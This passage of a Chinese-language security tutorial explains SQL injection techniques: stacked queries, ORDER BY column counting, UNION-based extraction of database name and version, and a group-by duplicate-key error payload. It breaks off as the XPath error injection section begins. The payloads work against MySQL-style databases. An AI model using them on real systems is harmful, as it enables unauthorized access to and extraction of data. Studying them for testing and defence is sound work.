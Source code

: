 ### 2.2.1 堆叠注入

分号 `;` 在sql中意味着一条语句的结束，可以在分号后继续构造第二条语句，数据库依然会继续执行，这样就会存在堆叠注入。

> Tips: 堆叠注入存在局限性
> 1. 结果不会在页面显示
> 2. 接口或者数据库引擎不支持

```sql
SELECT * FROM users WHERE id='1';SELECT 1,database(),version(),4,5
```

### 2.2.2 报错注入

#### 2.2.2.1 联合查询注入

##### 表的字段数量判断

在mysql、mariadb、oracle等数据库中，可以使用数字来代替对应字段(列)的名称，如果数据库中没有对应的字段(列)，就会报错。使用 order by 让 `$id` 按照不同的字段排序，直到 order by 后的数字超出了字段数量，则会返回报错信息。

```sql
SELECT * FROM users WHERE id='1' order by 1 --+ LIMIT 0,1;
```

##### 显示字段内容判断

union 联合查询时，当前面的语句为假，则后面的查询结果会显示到相应的位置。则可以通过在前面查询语句中添加 and 1=2 使语句变假，来判断页面显示的内容为表中的哪几个字段。然后使用database()和version()替换相应的字段位置就可以查询数据库名称和版本号。 

```sql
SELECT * FROM users WHERE id='-1' union select 1,2,3,4,5 --+ LIMIT 0,1;
SELECT * FROM users WHERE id='1' and 1=2 union select 1,2,3,4,5 --+ LIMIT 0,1;

SELECT * FROM users WHERE id='-1' UNION SELECT 1,database(),version(),4,5 --+
```

#### 2.2.2.2 group by重复建冲突报错

```sql
SELECT * FROM users WHERE id='2' and (
    select 1 from (
        select count(*),concat(
            (
                select database() from information_schema.tables limit 0,1  --+ 真正的查询语句
            ),floor(rand()*2)
        )x from information_schema.tables group by x
    )a
) --+
```

#### 2.2.2.3 xpath语法错误

xpath 语法报错注入，主要利用extractvalue()和updatexml()函数。  

使用方法：

